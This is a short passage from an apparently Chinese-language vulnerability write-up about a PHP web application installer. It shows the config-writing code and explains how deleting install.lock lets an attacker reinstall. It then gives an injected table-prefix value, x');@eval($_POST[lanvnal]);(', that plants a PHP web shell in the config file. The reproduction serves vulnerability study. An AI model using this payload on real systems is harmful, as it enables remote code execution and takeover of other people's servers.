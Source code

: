 ```

```
if($fp = fopen($file, 'w')) {
    fwrite($fp, $config);
    fclose($fp);
    $success = true;
}
return $success; 
``` `}` 
```

因为 `dbhost, dbuser`等参数需要用来连接数据库，所以利用 `tablepre` 向配置文件写入shell。

### 漏洞复现

如果安装后`install/index.php`因为某些原因还存在，直接访问会有如下警告：

![image](../img/4086b46ede537047a41e5b2f355844f7.png)

通过文件删除漏洞删除data目录下的`install.lock`文件就可以重新安装。

安装过程修改表前缀内容为：`x');@eval($_POST[lanvnal]);('`

![image](../img/0c128f283b1c6b815525d51d24d143c2.png)
